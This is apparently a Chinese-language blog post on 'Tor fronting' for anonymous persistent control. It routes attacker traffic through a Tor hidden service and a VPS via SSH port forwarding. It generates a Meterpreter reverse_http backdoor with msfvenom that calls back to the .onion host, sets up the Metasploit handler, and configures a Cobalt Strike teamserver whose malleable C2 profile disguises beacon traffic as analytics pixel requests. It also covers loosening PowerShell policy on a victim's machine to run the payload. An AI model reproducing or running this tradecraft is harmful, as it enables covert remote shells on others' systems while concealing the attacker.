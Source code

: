 ```yaml
---
layout:         post
title:          Tor Fronting 匿名攻击
author:         wooy0ung
tags:           msf
category:  	exploit
password:       yes
---
```



>利用 VPS 作为跳板强化可持续控制, 但还是会泄漏一部分个人信息。  
>Tor Hidden Services 提供了隐藏自身网络的服务, 它提供了一个唯一并且匿名的 hostname, 配合 VPS 进行流量转发, 最终实现匿名持续控制。  
![](/assets/img/exploit/2017-09-03-tor-fronting/0x00.png)
<!-- more -->


### 0x00 config Tor Hidden Services

查看系统版本

```
$ lsb_release -a
```

![](/assets/img/exploit/2017-09-03-tor-fronting/0x01.png)

选择对应的版本, [传送门](https://www.torproject.org/docs/debian.html.en#ubuntu)

![](/assets/img/exploit/2017-09-03-tor-fronting/0x02.png)

按提示要求安装, 然后编辑 /etc/tor/torrc 文件(取消注释)

```
HiddenServiceDir /var/lib/tor/hidden_service/
HiddenServicePort 80 127.0.0.1:8080
```

重启 Tor 服务

```
$ sudo service tor restart
```


### 0x01 开启 http 服务

查看 hostname

```
$ sudo cat /var/lib/tor/hidden_service/hostname
```

打开 http 服务

```
$ cd /tmp
$ python -m SimpleHTTPServer 8080
```

浏览器访问 xxx.onion.link, 确认页面能正常打开再关闭服务


### 0x02 payload & exploit

端口转发

```
$ ssh -N -R 8080:192.168.1.104:8080 root@VPS_IP
```

生成 http 反弹后门

```
$ msfvenom -p windows/meterpreter/reverse_http lhost=xxx.onion.link lport=80 -f exe > shell.exe
```

设置好 msf

```
msf > use exploit/multi/handler
msf exploit(handler) > set payload windows/meterpreter/reverse_http
msf exploit(handler) > set lhost 0.0.0.0
msf exploit(handler) > set lport 8080
msf exploit(handler) > set exitonsession false
msf exploit(handler) > exploit -j
```

在 Victim's machine 执行 payload, getshell~

![](/assets/img/exploit/2017-09-03-tor-fronting/0x03.png)


### 0x03 cobaltstrike

将 teamserver、cobaltstrike.jar上传到 vps, 在 vps nano tor-fronting.profile 文件, 添加以下内容

```
set sleeptime "5000";
http-get {
        set uri "/___utm";
        client {
                header "Host" "xxx.onion.link";
                header "Cookie" "onion_cab_iKnowShit=xxx";
                metadata {
                        base64url;
                        prepend "__utma";
                        parameter "utmcc";
                }
        }
        server {
                header "Content-Type" "plain/text";
                output {
                        # hexdump pixel.gif
                        # 0000000 47 49 46 38 39 61 01 00 01 00 80 00 00 00 00 00
                        # 0000010 ff ff ff 21 f9 04 01 00 00 00 00 2c 00 00 00 00
                        # 0000020 01 00 01 00 00 02 01 44 00 3b
                        prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
                        print;
                }
        }
}
http-post {
        set uri "/__utm";
        set verb "GET";
        client {
                header "Host" "xxx.onion.link";
                header "Cookie" "onion_cab_iKnowShit=xxx";
                id {
                        prepend "UA-220";
                        append "-2";
                        parameter "utmac";
                }
                output {
                        base64url;
                        prepend "__utma";
                        parameter "utmcc";
                }
        }
        server {
                header "Content-Type" "plain/text";
                output {
                        prepend "\x01\x00\x01\x00\x00\x02\x01\x44\x00\x3b";
                        prepend "\xff\xff\xff\x21\xf9\x04\x01\x00\x00\x00\x2c\x00\x00\x00\x00";
                        prepend "\x47\x49\x46\x38\x39\x61\x01\x00\x01\x00\x80\x00\x00\x00\x00";
                        print;
                }
        }
}
# dress up the staging process too
http-stager {
        server {
                header "Content-Type" "plain/text";
        }
}
```

打开 teamserver

```
$ ./teamserver VPS_IP msf tor-fronting.profile
```

连接 teamserver

```
$ ./cobaltstrike
```

![](/assets/img/exploit/2017-09-03-tor-fronting/0x04.png)

新建 listener

![](/assets/img/exploit/2017-09-03-tor-fronting/0x05.png)
![](/assets/img/exploit/2017-09-03-tor-fronting/0x06.png)

生成 payload

![](/assets/img/exploit/2017-09-03-tor-fronting/0x07.png)

在 Victim's machine 的 powreshell 下执行以下命令, 允许执行不信任脚本

```
> set-ExecutionPolicy RemoteSigned
```

再执行 payload, getshell~

![](/assets/img/exploit/2017-09-03-tor-fronting/0x08.png)